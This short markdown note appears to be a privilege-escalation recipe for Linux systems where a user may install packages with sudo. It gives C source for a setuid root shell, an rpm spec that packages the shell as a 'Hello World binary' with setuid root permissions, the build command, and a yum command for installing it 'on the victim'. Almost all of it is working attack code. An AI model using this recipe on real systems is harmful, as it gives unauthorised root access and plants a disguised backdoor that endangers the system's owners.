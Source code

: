 # If you have sudo rights to install a package, make a shell and install it with the following commands

## pop.c in local build direcotry (/root/rpmbuild)
```c
#include <stdio.h>
#include <unistd.h>

int main()
{
	int ret;
	char *cmd[] = { "bash", "-p", (char*)0};
	setuid(0);
	setgid(0);
	ret = execvp( "bash", cmd );
	return 0;
}
```

Compile pop.c to pop, suid bit is aded in the rpm spec file

## pop.spec specifies the build information for rpm

```
pop.spec
Name: pop
Version: 1.0
Release: 1
Summary: Hello World binary
License: license.txt

%description
More detailed description of the hello world binary

%install
rm -rf %{buildroot}
mkdir -p %{buildroot}/usr/local/bin
cp /root/rpmbuild/pop %{buildroot}/usr/local/bin

%clean
rm -rf %{buildroot}

%files
%defattr(6755,root,root,6644)
/usr/local/bin/pop
```

## Make the rpm
```bash
rpmbuild -bb pop.spec -vvv
```

## install on the victim

```bash
sudo yum install $(pwd)/pop-1.0-1.i386.rpm --disablerepo=*
```
